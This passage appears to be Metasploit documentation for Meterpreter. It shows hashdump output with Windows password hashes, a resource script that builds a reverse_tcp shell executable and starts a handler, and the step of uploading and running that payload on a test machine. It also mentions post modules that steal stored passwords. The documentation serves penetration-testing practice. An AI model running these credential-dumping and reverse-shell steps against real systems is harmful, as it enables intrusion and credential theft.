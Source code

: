 The ```hashdump``` commands allows you to dump the Windows hashes if there are the right privileges.
For example:

```
meterpreter > hashdump
Administrator:500:e39baff0f2c5fd4e93e28745b8bf4ba6:f4974ee4a935ee160a927eafbb3f317f:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
HelpAssistant:1000:92a84e332fa4b09e9850257ad6826566:8fb9a6e155fd6e14a16c37427b68bbb4:::
root:1003:633c097a37b26c0caad3b435b51404ee:f2477a144dff4f216ab81f2ac3e3207d:::
SUPPORT_388945a0:1002:aad3b435b51404eeaad3b435b51404ee:e09fcdea29d93203c925b205640421f2:::
```


## Scenarios

**Setting up for Testing**

For testing purposes, if you don't want to manually generate a payload and start a multi handler
repeatedly, you can use the auto_win32_multihandler.rc resource script in Metasploit to automate that process. Here's how you would use it:

First, run the resource script:

```
$ ./msfconsole -q -r scripts/resource/auto_win32_multihandler.rc
[*] Processing scripts/resource/auto_win32_multihandler.rc for ERB directives.
[*] resource (scripts/resource/auto_win32_multihandler.rc)> Ruby Code (776 bytes)
lhost => 192.168.1.199
lport => 4444
[*] Writing 73802 bytes to /Users/metasploit/.msf4/local/meterpreter_reverse_tcp.exe...
[*] windows/meterpreter/reverse_tcp's LHOST=192.168.1.199, LPORT=4444
[*] windows/meterpreter/reverse_tcp is at /Users/metasploit/.msf4/local/meterpreter_reverse_tcp.exe
payload => windows/meterpreter/reverse_tcp
lhost => 192.168.1.199
lport => 4444
exitonsession => false
[*] Exploit running as background job.

[*] Started reverse TCP handler on 192.168.1.199:4444
[*] Starting the payload handler...
msf exploit(handler) >
```

Next, go to your ~/.msf4/local directory, you should see meterpreter_reverse_tcp.exe in there.
Upload that payload to your test box and execute it. You should receive a connection.

**Using a Post Module**

One of the best things about Meterpreter is you have access to a variety of post exploitation
modules, specifically for the multi and Windows categories. Post modules provide you with more capabilities to
collect data from the remote machine automatically. For example, you can steal passwords
from popular applications and enumerate or modify system settings.

To use a post module from the Meterpreter prompt, simply use the ```run``` command:
